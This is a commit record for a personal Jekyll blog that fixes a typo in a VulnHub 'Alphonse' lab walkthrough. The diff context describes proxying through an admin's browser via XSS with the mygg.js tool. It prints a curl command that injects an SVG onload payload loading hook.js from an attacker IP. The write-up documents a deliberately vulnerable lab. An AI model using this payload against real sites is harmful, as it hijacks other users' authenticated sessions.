

Before and after one commit to dsolstad/dsolstad.github.io, a Jekyll site: the page built from _posts/2020-09-30-Walkthrough-VulnHub-Alphonse.md, in a window 1280 px wide and 900 px high, scrolled down 6853 px. Shown: the whole window, without its empty margins (336-1033 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-09-30-Walkthrough-VulnHub-Alphonse.md

````diff
--- a/_posts/2020-09-30-Walkthrough-VulnHub-Alphonse.md
+++ b/_posts/2020-09-30-Walkthrough-VulnHub-Alphonse.md
@@ -294,7 +294,7 @@ Cache-Control: no-cache
 
 ### Proxy via XSS
 
-However, there is another trick we can use. We can use a tool called mygg.js to use XSS to browse through the admin's browser to take a look at the site via their authenticated session. Follow the basic installation at https://github.com/dsolstad/mygg.js and edit the configuration in the top section of the file. Change the domain variable to your attacking IP address before starting it the tool `$ node mygg.js`. After this we can change the XSS payload and use mygg's hook instead.
+However, there is another trick we can use. We can use a tool called mygg.js to use XSS to browse through the admin's browser to take a look at the site via their authenticated session. Follow the basic installation at https://github.com/dsolstad/mygg.js and edit the configuration in the top section of the file. Change the domain variable to your attacking IP address before starting it with `$ node mygg.js`. After this we can change the XSS payload and use mygg's hook instead.
 
 ```
 root@kali:~# curl -i -d "username=test4&password=test&dna_string=<svg/onload=\"var x=document.createElement('script');x.src='http://192.168.0.34/hook.js';document.head.appendChild(x);\">" http://alphonse/dnanalyzer/api/register.php
````
